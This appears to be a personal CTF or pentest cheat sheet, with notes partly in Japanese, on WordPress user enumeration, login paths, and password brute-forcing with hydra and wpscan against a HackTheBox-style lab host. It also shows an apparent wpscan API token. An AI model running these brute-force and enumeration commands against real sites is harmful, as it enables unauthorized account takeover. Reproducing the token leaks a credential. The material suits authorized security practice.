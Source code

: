 ## ## WordPress Enumaration
- api token
```
--api-token 9q9BSbdaRwKT1mQZ6t1YmSU6RZW44oxgicqa42TvtBU
```

- Users
```sh
curl -s -I -X GET http://blog.example.com/?author=1
curl http://blog.example.com/wp-json/wp/v2/users
```

- login page directory
	/wp-admin/login.php
	/wp-admin/wp-login.php
	/login.php
	/wp-login.php

- /login page Passsword Attack
```sh
hydra -l <username> -P <password list> <Target hostname> <service module> <post request parameters>

hydra -l admin -P /usr/share/wordlists/rockyou.txt metapress.htb http-post-form "/wp-login.php:log=admin&pwd=admin:Error: The password you entered for the username admin is incorrect. Lost your password?" -vV -f
```
---
## ## wpscan
### ### password attack
```
wpscan --url http://metapress.htb/ -P /usr/share/wordlists/xato-net-10-million-passwords-10000.txt --username admin
```

### ### wpscan enumeration
```
wpscan --url http://metapress.htb/ --enumerate
	指定がない場合は:「vp,vt,tt,cb,dbe,u,m」が適用される。
	その他のオプション
		vp (Vulnerable plugins) 脆弱なプラグイン
		ap (All plugins)　全てのプラグイン
		p (Popular plugins)　人気のプラグイン
		vt (Vulnerable themes)　脆弱なテーマ
		at (All themes)　全てのテーマ
		t (Popular themes)　人気のテーマ
		tt (Timthumbs) Timthumbファイル
		cb (Config backups)　wp-configのバックアップ
		dbe (Db exports)　DBバックアップ
		u (User IDs range. e.g: u1-5)　ユーザー名　u1-5とするとIDのレンジ
		m (Media IDs range. e.g m1-15)　メディア　m1-5とするとIDのレンジ
```

